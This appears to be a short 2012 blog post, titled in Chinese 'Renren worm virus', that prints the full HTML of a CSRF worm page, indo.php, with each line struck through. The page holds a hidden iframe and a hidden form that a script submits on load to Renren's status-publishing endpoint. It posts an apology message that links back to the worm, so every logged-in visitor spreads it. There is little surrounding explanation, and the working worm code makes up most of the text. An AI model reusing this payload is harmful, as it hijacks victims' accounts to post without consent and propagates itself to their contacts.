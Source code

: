title: "人人蠕虫病毒"
date: 2012-05-16 23:14:42
tags:
---

<del>indo.php代码如下</del>

<del>&lt;html&gt;&lt;head&gt;&lt;meta http-equiv="Content-Type" content="text/html; charset=UTF-8" /&gt;&lt;title&gt;爱你的说&lt;/title&gt;</del>

<del>&lt;/head&gt;&lt;body&gt;&lt;iframe name="destination" width="0" height="0"&gt;&lt;/iframe&gt;</del>

<del>我是真的真的好爱你FOREVER</del>

<del>&lt;div id="kokia" style="float:left;display:none;"&gt;

&lt;form id="akiko" name="akiko" action="http://j.renren.com/publisher/status" method="POST" target="destination"&gt;   &lt;input type="text" name="synsbcp" value="1"/&gt;  &lt;p&gt;raw: &lt;input type="text" name="content" value="我错了,大家原谅我吧！http://bookman.sinaapp.com/indo.php"/&gt;&lt;/p&gt;  &lt;input type="submit" value="Submit" /&gt;&lt;/form&gt;

&lt;/div&gt;</del>

<del>&lt;script&gt;	document.akiko.submit();&lt;/script&gt;&lt;/body&gt;</del>

&nbsp;

<del>&lt;/html&gt;</del>
